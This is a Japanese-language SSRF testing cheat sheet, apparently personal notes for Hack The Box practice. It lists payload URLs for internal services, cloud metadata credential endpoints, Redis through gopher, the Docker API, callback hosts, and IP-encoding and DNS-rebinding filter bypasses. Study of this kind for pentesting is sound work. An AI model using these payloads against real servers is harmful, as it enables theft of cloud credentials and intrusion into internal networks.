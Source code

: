 ### **SSRF（Server-Side Request Forgery)

SSRF（サーバーサイドリクエストフォージェリ）は、攻撃者がサーバーに不正なリクエストを送信させ、内部ネットワークや非公開のAPIにアクセスさせる脆弱性
## **SSRFを疑うべきケース**

SSRFの可能性がある状況

1. **ユーザーが指定したURLに対してサーバーがリクエストを送る機能がある**
    
    - **画像のURLプレビュー**  
        → ユーザーがURLを入力すると、画像を取得して表示する
    - **Webhooksの登録**  
        → ユーザーがWebhookのURLを指定すると、サーバーがリクエストを送る
    - **APIリクエストの中継（Proxy機能）**  
        → 外部APIと連携するシステム（例: OpenGraph、RSSリーダー）
2. **外部サービスとの通信を行う機能がある**
    
    - **PDF生成機能**  
        → WebページをPDFに変換するサービス（URLを直接指定できる場合が多い）
    - **クラウド関連の操作がある** → AWSやGCP環境のメタデータにアクセスできる可能性がある
    - **URLフィルタリングが甘いAPI**  
        → 任意のURLにリクエストを送れる（API GatewayやOpen Redirectが存在）
3. **エラーメッセージにリクエスト結果が表示される**
    
    - **リダイレクトが発生する**
    - **リクエスト先のエラーメッセージがレスポンスに表示される**


## **SSRFの検証方法**

まずSSRFかもと思ったら、下を試す前に怪しまれないように確認する方法
→自分(攻撃者側)の端末にリクエストを飛ばさせる
netcatで待機
```
nc -lvnp 5555
```
`http://自分のIP:5555`にアクセスして、nc側にリクエストが飛んでくるかを確認する
リクエストが飛んできた場合
→SSRFの脆弱性がある

下に進む

### **1. 内部ネットワークアクセスを試す**

まず、内部サービスへのアクセスを確認するために、ローカルアドレスにリクエストを送る。

#### **基本的なSSRFテスト**

入力フォームやAPIエンドポイントに、以下のURLを試す。

```bash
http://127.0.0.1/
http://localhost/
http://192.168.1.1/
http://10.0.0.1/
http://[::1]/
```

→ 何らかのレスポンスがある場合、内部アクセスが可能な可能性が高い。

#### **管理パネルのチェック**

SSRFで管理パネルやアプリケーションにアクセスできるかを調査

```bash
http://localhost/admin
http://127.0.0.1:8000/
http://127.0.0.1:8080/
http://127.0.0.1:5000/
http://127.0.0.1:9001/ (Supervisor)
```

→ 404以外のレスポンスや特定の管理画面のレスポンスが返ってきたら脆弱性あり。


### **2. クラウドメタデータの取得**

クラウド環境（AWSやGCPなど）のメタデータサーバーが取得できるか試す。

#### **AWSのメタデータ**

```bash
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

→ IAMクレデンシャルが取得できる場合、EC2の特権情報を取得できる。

#### **GCPのメタデータ**

```bash
http://metadata.google.internal/computeMetadata/v1/
```

→ GCPのインスタンス情報が取得できる。

#### **Azureのメタデータ**

```bash
http://169.254.169.254/metadata/instance?api-version=2021-01-01
```


### **3. SSRF to RCE（リモートコード実行）**

一部のシステムでは、SSRFを利用してリモートコード実行（RCE）につながることがある。

#### **Redisへのアクセス**

Redisのデフォルトポート `6379` にアクセスできるかを試す

```bash
http://127.0.0.1:6379/
gopher://127.0.0.1:6379/_%2A1%0D%0A$4%0D%0Ainfo%0D%0A
```

→ Redisにアクセスできるなら、後続の攻撃が可能。

#### **Elasticsearchへのアクセス**

```bash
http://127.0.0.1:9200/_cat/indices
```

→ もしElasticsearchのデータが取得できるなら、内部情報を抜き出せる。

#### **Docker APIの利用**

Dockerが動いているかを確認：

```bash
http://127.0.0.1:2375/images/json
```

→ コンテナ作成が可能なら、RCEのチャンス。


### **4. DNS Exfiltration（データ流出の確認）**

SSRFを利用して、攻撃者が制御するサーバーにリクエストを送らせることで、外部通信が可能かを確認する。

#### **Burp Collaborator / Interactsh**

Burp CollaboratorやInteractshを使い、サーバーが外部へリクエストを送信するかを確認

```bash
http://your-burp-collaborator-id.burpcollaborator.net/
http://your-interactsh-id.interact.sh/
```

→ もしサーバーがリクエストを送信してきたら、外部通信が可能な証拠。


### **5. Bypass Techniques（フィルタ回避）**

一部のサーバーでは、SSRFを防ぐために「`localhost` へのリクエスト禁止」などの制限がある。以下の方法でバイパスを試す。

#### **IPアドレスのエンコード**

```bash
http://2130706433/  # 127.0.0.1 を整数表記
http://0x7F000001/  # 127.0.0.1 を16進数
```

#### **DNS Rebinding**

一部のサーバーでは、外部ドメインから内部へリクエストを送れるようになる。

```bash
http://attacker-controlled-domain.com/
```

→ DNSリバインディングを利用し、`localhost` へリダイレクト。

### 最終奥義 : Burpsuiteでブルートフォースで管理用ポートを探し出す
ここでは、内部向けの公開されていない空いているポートを探す
Burp SuiteのIntruderを使って、すべてのポートで試す
こんな感じで、該当部分をIntruderに送って、画像内の80の部分を「1~65535」で探す。
(*なんかFreeバージョンだと制限かかって動かなそう)
![](https://raw.githubusercontent.com/crum7/Obsidian/main/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A9%B3%E7%B4%B0/images/Pasted%20image%2020250130145732.png)
![](https://raw.githubusercontent.com/crum7/Obsidian/main/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A9%B3%E7%B4%B0/images/Pasted%20image%2020250130145941.png)

(なんかFreeバージョンだと制限かかって動かなそう)
pythonで同じことをする

## **まとめ**

HTBでSSRFを調査する際は、以下の流れでテストするとよい：

1. **内部ネットワークへのアクセスを試す**（`localhost`、`127.0.0.1` など）
2. **クラウドメタデータの取得を試す**（AWS、GCP、Azure）
3. **SSRFからのRCEを狙う**（Redis、Docker、Elasticsearch）
4. **DNS Exfiltrationを試す**（Burp Collaborator / Interactsh）
5. **フィルタ回避を試す**（IPエンコード、DNSリバインディング）

**内部APIやクラウド情報を抜き取ることで、次の攻撃につなげる** ケースが多いので、SSRFの発見は重要！
